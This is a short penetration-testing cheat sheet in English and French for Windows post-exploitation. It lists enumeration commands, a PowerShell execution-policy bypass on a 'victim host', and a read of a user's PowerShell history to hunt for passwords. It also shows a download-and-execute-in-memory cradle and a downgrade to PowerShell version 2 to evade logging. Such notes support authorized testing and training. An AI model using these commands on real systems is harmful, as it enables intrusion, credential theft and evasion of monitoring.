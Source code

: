 #### Basic Enumeration Commands

|**Command**|**Result**|
|---|---|
|`hostname`|Prints the PC's Name|
|`[System.Environment]::OSVersion.Version`|Prints out the OS version and revision level|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patches and hotfixes applied to the host|
|`ipconfig /all`|Prints out network adapter state and configurations|
|`set`|Displays a list of environment variables for the current session (ran from CMD-prompt)|
|`echo %USERDOMAIN%`|Displays the domain name to which the host belongs (ran from CMD-prompt)|
|`echo %logonserver%`|Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|

#### Commandes d'exécution powershell utiles
|**Cmd-Let**|**Description**|
|---|---|
|`Get-Module`|Lists available modules loaded for use.|
|`Get-ExecutionPolicy -List`|Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.|
|`Set-ExecutionPolicy Bypass -Scope Process`|This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.|

* `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`
	* With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.
* `Get-ChildItem Env: | ft Key,Value`
	* Return environment values such as key paths, users, computer information, etc.
* `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`
	* This is a quick and easy way to download a file from the web using PowerShell and call it from memory.|

## Rétrograder version de Powershell
Hôte peut contenir vieilles versions non surveillés de powershell avec moins de fonctionnalités de sécurité.
```powershell
Get-Host
#version plus récente
powershell.exe -version 2
Get-Host
#version 2
```
Pour vérifier si nos commandes sont journalisées
`Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`
`Applications and Services Logs > Windows PowerShell`
